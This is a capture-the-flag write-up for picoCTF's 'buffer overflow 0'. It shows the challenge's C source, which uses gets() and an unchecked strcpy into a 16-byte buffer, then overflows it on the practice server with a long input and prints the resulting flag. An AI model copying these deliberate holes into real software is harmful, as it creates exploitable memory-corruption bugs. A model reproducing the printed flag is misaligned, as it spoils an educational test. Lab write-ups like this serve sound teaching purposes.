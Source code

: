 # 1. buffer overflow 0

> Let's start off simple, can you overflow the correct buffer? The program is available `here`. You can view source `here`.
Connect using:
nc saturn.picoctf.net 49460

## Solution:
In this challenge we have a C program whose code is as following-  
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
    printf("%s\n", flag);
    fflush(stdout);
    exit(1);
}

void vuln(char *input){
    char buf2[16];
    strcpy(buf2, input);
}

int main(int argc, char **argv){

    FILE *f = fopen("flag.txt","r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }
    fgets(flag,FLAGSIZE_MAX,f);
    signal(SIGSEGV, sigsegv_handler); // Set up signal handler

    gid_t gid = getegid();
    setresgid(gid, gid, gid);


    printf("Input: ");
    fflush(stdout);
    char buf1[100];
    gets(buf1);
    vuln(buf1);
    printf("The program will exit now\n");
    return 0;
}
```  
So this program takes the takes the input for the string `flag` from the `flag.txt`, so we need a way to print `flag`.  
This program also sets up a signal `signal(SIGSEGV, sigsegv_handler);`, what this means is that if the OS sends a SIGSEGV or a segmentation fault then it would call the `sigsev_handler` function.  
```c
void sigsegv_handler(int sig) {
    printf("%s\n", flag);
    fflush(stdout);
    exit(1);
}
```  
What this function will do is that if a segmentation fault occured it would print the flag for us and that is what we need.  
Trying out a string in this program-  
```bash
lallu@VedantLohan:~/picoctf/bina$ nc saturn.picoctf.net 61244
Input: qwdqwdwq
The program will exit now
^C
```  
and it doesn't give us the flag, for a segmentation fault to occur we can overflow the buffer for the gets() function being used to take in the input. So we just spam a lot of chars to overflow it and print the flag.  
```bash
lallu@VedantLohan:~/picoctf/bina$ nc saturn.picoctf.net 56392
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
^C
```

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Concepts learnt:
- Learned about signals in C, they inform the program of an event happening such as an error.  
- Buffer overflow happens when a program attempts to hold more memory than it was intended to, this causes the data to leak to adjacent memory locations and can overwrite the data there.  
- gid_t is an integer data type used to represent group IDs  .
- getgid(): Returns the real group ID of the calling process.  
- segfault is a crash that occurs when a program tries to access memory it's not allowed to access.  

## Notes:
- I was trying to compile this provided code to run it, but it had errors present in it. The challenge was intended to be solved on the server beacuse it needs the flag.txt file.

## Resources:
[signals](https://www.geeksforgeeks.org/c/signals-c-language/)

***


